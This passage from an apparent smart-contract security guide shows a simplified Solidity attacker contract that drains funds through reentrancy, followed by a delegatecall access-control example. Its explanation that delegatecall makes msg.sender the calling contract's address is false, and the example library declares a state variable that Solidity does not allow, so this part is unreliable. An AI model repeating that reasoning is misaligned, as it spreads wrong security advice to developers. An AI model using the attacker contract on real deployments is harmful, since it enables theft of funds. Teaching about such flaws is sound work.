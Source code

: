       // Attacker Contract (simplified)
      contract Attacker {
          VulnerableContract public target;

          constructor(VulnerableContract _target) {
              target = _target;
          }

          function attack() public payable {
              target.deposit{value: 1 ether}();
              target.withdraw(1 ether); // Triggers reentrancy
          }

          fallback() external payable {
              if (address(target).balance >= 1 ether) {
                  target.withdraw(1 ether); // Re-enter the withdraw function
              }
          }
      }
      ```

* **Delegatecall Vulnerabilities Bypassing Context:**
    * **Description:** When using `delegatecall`, the called contract's code is executed in the context of the calling contract. If access control relies on `msg.sender` within the delegated contract, it can be bypassed.
    * **Example:** A library function intended to be called only by the owner uses `msg.sender` for authorization. If a non-owner calls a function in the main contract that uses `delegatecall` to this library function, the library function will see the main contract's address as `msg.sender`, potentially bypassing the intended access control.
    * **Impact:** Unauthorized execution of privileged functions within the delegated contract's logic, but with the calling contract's state.
    * **Code Example (Vulnerable - simplified):**
      ```solidity
      pragma solidity ^0.8.0;

      library AuthLibrary {
          address public owner;

          function initialize(address _owner) public {
              owner = _owner;
          }

          function sensitiveOperation() public {
              require(msg.sender == owner, "Only owner can call this");
              // ... sensitive logic ...
          }
      }

      contract MainContract {
          address public libraryAddress;

          constructor(address _libraryAddress) {
              libraryAddress = _libraryAddress;
          }

          function callSensitiveOperation() public {
              (bool success, bytes memory data) = libraryAddress.delegatecall(
                  abi.encodeWithSignature("sensitiveOperation()")
              );
              require(success, "Delegatecall failed");
          }
      }
      ```
